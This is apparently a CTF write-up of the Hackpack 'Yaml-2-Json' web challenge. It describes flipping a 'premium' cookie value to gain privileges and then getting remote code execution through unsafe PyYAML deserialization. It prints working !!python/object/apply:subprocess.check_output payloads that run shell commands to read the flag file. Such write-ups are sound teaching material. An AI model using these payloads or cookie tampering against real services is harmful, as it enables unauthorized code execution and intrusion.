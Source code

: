 ```yaml
---
title: "Yaml-2-Json Hackpack CTF"
author: "Trevor saudi"
date: 2021-04-17T18:46:32.088Z
lastmod: 2022-05-24T14:31:54+03:00

description: ""

subtitle: "Exploiting a deserialize vunlerability in pyyaml"

image: "/posts/2021-04-17_yaml2json-hackpack-ctf/images/1.png" 
images:
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/1.png"
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/2.png"
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/3.png"
 - "/posts/2021-04-17_yaml2json-hackpack-ctf/images/4.png"


aliases:
    - "/yaml-2-json-hackpack-ctf-7de28ef0ecff"


tags:
- pyyaml
- CTF
- code injection
---
```


## Exploiting a deserialize vunlerability in pyyaml

Hackpack has recently concluded and we placed 47th out of 447 teams. In this short writeup we look at Yaml-2-Json in the web category

![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/1.png#layoutTextWidth)

### Enumeration

In this challenge we exploit a code execution vulnerability in pyYaml- a yaml parser and emitter for python. The server is using [pyYAML](https://github.com/yaml/pyyaml/tree/5.3.1) and Flask.

We get a simple web page with an option to parse yaml to json. I thought of using python payloads to get some code execution but they failed at first.

![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/2.png#layoutTextWidth)


The message at the bottom hinting that I was not on a premium account prompted me to investigate the cookies.

Interestingly enough we can modify the premium value to true so we get premium privileges on the service

![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/3.png#layoutTextWidth)


So let’s go for RCE and read our flag from the server

### Exploitation 

I used the following payload at first but it fails since subprocess will only accept single commands like `whoami, id`

```python3 
user_input: !!python/object/apply:subprocess.check_output ['cat /tmp/flag.txt']
```

My teammate [Koimet](https://twitter.com/k0imet_) helped me refine my payload to the following which gives us the flag
```python3 
user_input: !!python/object/apply:subprocess.check_output
       args: [ cat /tmp/flag.txt ]
       kwds: { shell: true }
```
![image](/posts/2021-04-17_yaml2json-hackpack-ctf/images/4.png#layoutTextWidth)
